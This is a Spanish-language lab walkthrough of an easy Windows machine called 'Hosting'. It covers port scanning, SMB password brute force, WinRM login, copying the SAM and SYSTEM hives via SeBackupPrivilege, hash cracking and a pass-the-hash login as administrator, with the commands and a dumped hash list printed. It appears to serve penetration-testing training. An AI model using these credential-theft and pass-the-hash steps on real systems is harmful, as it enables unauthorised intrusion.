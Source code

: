 ```yaml
---
description: '🔍 Dificultad: Fácil'
---
```


# Hosting

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.76
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1145).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.76 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1146).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los puertos **80, 135, 139, 445** y varios en el rango **49664-49670** están abiertos. Estos pertenecen a los servicios de **HTTP, Microsoft RPC, NetBIOS-SSN, Microsoft-DS** y otros puertos desconocidos, por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,135,139,445 -v 192.168.1.76
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1147).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (1148).png" alt=""><figcaption></figcaption></figure>

Revisamos directorios.

```
gobuster dir -u http://192.168.1.76 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```



Encontramos el directorio **/speed**.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-01 115358.png" alt=""><figcaption></figcaption></figure>

Adjuntamos el dominio a /etc/hosts.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-01 115523.png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Hacemos una lista de usuarios para realizar fuerza bruta.

```bash
nxc smb 192.168.1.76 -u usuarios -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding
```

<figure><img src="../../.gitbook/assets/image (1151).png" alt=""><figcaption></figcaption></figure>

Listamos recursos compartidos. Pero no encontramos nada relevante.

<figure><img src="../../.gitbook/assets/image (1152).png" alt=""><figcaption></figcaption></figure>

Listamos usuarios.

<figure><img src="../../.gitbook/assets/image (1153).png" alt=""><figcaption></figcaption></figure>

Vemos que con m.davis tenemos su contraseña.

<figure><img src="../../.gitbook/assets/image (1154).png" alt=""><figcaption></figcaption></figure>

Comprobamos que j.wilson tiene la misma contraseña. Nos conectamos con **evil-winrm**.

```bash
evil-winrm -i 192.168.1.76 -u j.wilson -p 'H0$T1nG123!'
```

<figure><img src="../../.gitbook/assets/image (1155).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

```bash
whoami
```

Dado que el sistema cuenta con el permiso **SeBackupPrivilege**, es posible realizar una copia de los archivos **SAM** y **SYSTEM** para extraer los hashes de las credenciales.

<figure><img src="../../.gitbook/assets/image (1156).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1157).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos.

```
*Evil-WinRM* PS C:\temp> download system                                   
Info: Downloading C:\temp\system to system                                      
Info: Download successful!

*Evil-WinRM* PS C:\temp> download sam                                       
Info: Downloading C:\temp\sam to sam                                     
Info: Download successful!
```

Extraemos los hashes.

```bash
samdump2 system sam > hashes.txt
```

Ahora con John los crackeamos.

<figure><img src="../../.gitbook/assets/image (1158).png" alt=""><figcaption></figcaption></figure>

```
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:8afe1e889d0977f8571b3dc0524648aa:::
administrator:1002:aad3b435b51404eeaad3b435b51404ee:41186fb28e283ff758bb3dbeb6fb4a5c:::
p.smith:1003:aad3b435b51404eeaad3b435b51404ee:2cf4020e126a3314482e5e87a3f39508:::
f.miller:1004:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
m.davis:1005:aad3b435b51404eeaad3b435b51404ee:851699978beb72d9b0b820532f74de8d:::
j.wilson:1006:aad3b435b51404eeaad3b435b51404ee:a6cf5ad66b08624854e80a8786ad6bac:::
```

Nos conectamos. Ya somos **root**.

```bash
evil-winrm -i 192.168.1.76 -u administrator -H 41186fb28e283ff758bb3dbeb6fb4a5c
```

<figure><img src="../../.gitbook/assets/image (1160).png" alt=""><figcaption></figcaption></figure>
